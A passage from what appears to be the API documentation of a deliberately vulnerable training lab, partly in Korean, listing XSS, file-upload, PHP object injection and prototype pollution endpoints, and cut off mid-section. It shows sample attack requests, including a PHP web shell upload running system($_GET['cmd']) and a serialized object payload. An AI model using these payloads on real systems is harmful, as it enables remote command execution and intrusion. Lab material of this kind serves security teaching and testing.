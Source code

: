 ```json
      "Validate and sanitize input"
    ]
  },
  "safe_comparison": {
    "rendered_output": "<div>Hello &lt;script&gt;alert('XSS')&lt;/script&gt;</div>",
    "script_executed": false,
    "method": "htmlspecialchars() encoding"
  }
}
```

### 3. 파일 업로드 취약점

```http
POST /vulnerabilities/file-upload
Content-Type: multipart/form-data
```

**Request:**
```
--boundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']); ?>
--boundary
Content-Disposition: form-data; name="mode"

vulnerable
--boundary--
```

### 4. 역직렬화 취약점

#### PHP Object Injection
```http
POST /vulnerabilities/object-injection
```

**Request:**
```json
{
  "payload": "O:10:\"EvilObject\":1:{s:4:\"code\";s:10:\"phpinfo();\";}",
  "mode": "vulnerable",
  "parameters": {
    "serialization_format": "php|json|xml",
    "trigger_method": "unserialize|json_decode|simplexml_load_string"
  }
}
```

#### Node.js Prototype Pollution
```http
POST /vulnerabilities/prototype-pollution
```
